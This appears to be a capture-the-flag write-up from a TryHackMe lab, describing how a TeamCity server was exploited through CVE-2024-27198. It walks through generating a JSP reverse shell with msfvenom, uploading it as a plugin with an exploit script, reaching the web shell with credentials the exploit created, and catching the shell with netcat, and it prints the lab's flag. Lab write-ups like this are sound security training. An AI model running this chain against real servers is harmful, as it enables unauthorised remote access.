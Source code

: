 ![[Pasted image 20241020195544.png]]

port 22, 80, 36401, 50000
![[Pasted image 20241020195716.png]]

![[Pasted image 20241020195845.png]]

![[Pasted image 20241020200821.png]]
### **Step-by-Step Explanation:**

1. **Generating the Reverse Shell JSP Payload:**
    
    bash
    
    Copy code
    
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.102.109 LPORT=4444 -f raw -o shell.jsp`
    
    - This command uses `msfvenom` to create a **JSP reverse shell payload**.
    - **LHOST** is your attacking machine’s IP (`10.11.102.109`).
    - **LPORT** is the port on which your netcat listener will receive the connection (`4444`).
    - **Output** is saved as `shell.jsp`.

---

2. **Uploading the Malicious Plugin:**
    
    bash
    
    Copy code
    
    `python3 CVE-2024-27198-RCE.py -t http://10.10.126.60:50000 -f shell.jsp`
    
    - This command uses the exploit script to **upload the `shell.jsp` reverse shell** as a malicious plugin to the vulnerable TeamCity instance at `10.10.126.60`.
    - The exploit successfully adds a new user (`ic3fjtsx`) and uploads the web shell under the plugin path:
        
        ruby
        
        Copy code
        
        `http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
        

---

3. **Accessing the Web Shell:**
    
    bash
    
    Copy code
    
    `curl -u ic3fjtsx:mPmBrTvUyP http://10.10.126.60:50000/plugins/1EYcIAkF/1EYcIAkF.jsp`
    
    - Since the web shell is protected with authentication, you used the **new credentials** generated by the exploit (`ic3fjtsx:mPmBrTvUyP`).
    - This **confirms that the web shell is accessible** and ready to execute commands.

---

4. **Starting a Netcat Listener:**
    
    bash
    
    Copy code
    
    `nc -lvnp 4444`
    
    - This command starts your **listener** on port 4444 to receive the reverse shell.

---

5. **Navigating to the Target’s Filesystem:** You ran the following **`find`** command to search for the flag:
    
    bash
    
    Copy code
    
    `find / -name "flag.txt" 2>/dev/null`
    
    - The output shows that the flag is located at:
        
        arduino
        
        Copy code
        
        `/home/ubuntu/flag.txt`
        

---

6. **Retrieving the Flag:**
    
    bash
    
    Copy code
    
    `cd /home/ubuntu cat flag.txt`
    
    - This command navigates to the target user’s home directory and displays the content of the `flag.txt` file:
        
        Copy code
        
        `THM{faa9bac345709b6620a6200b484c7594}`
        

---

### **Summary:**

- You **exploited** the vulnerability in TeamCity by uploading a **JSP reverse shell plugin**.
- You **logged into the web shell** using the credentials generated by the exploit.
- You successfully **found the `flag.txt`** in `/home/ubuntu` and retrieved it using `cat`.
- The flag is:  
    **`THM{faa9bac345709b6620a6200b484c7594}`**

![[Pasted image 20241020204259.png]]
![[Pasted image 20241020204320.png]]
![[Pasted image 20241020213815.png]]
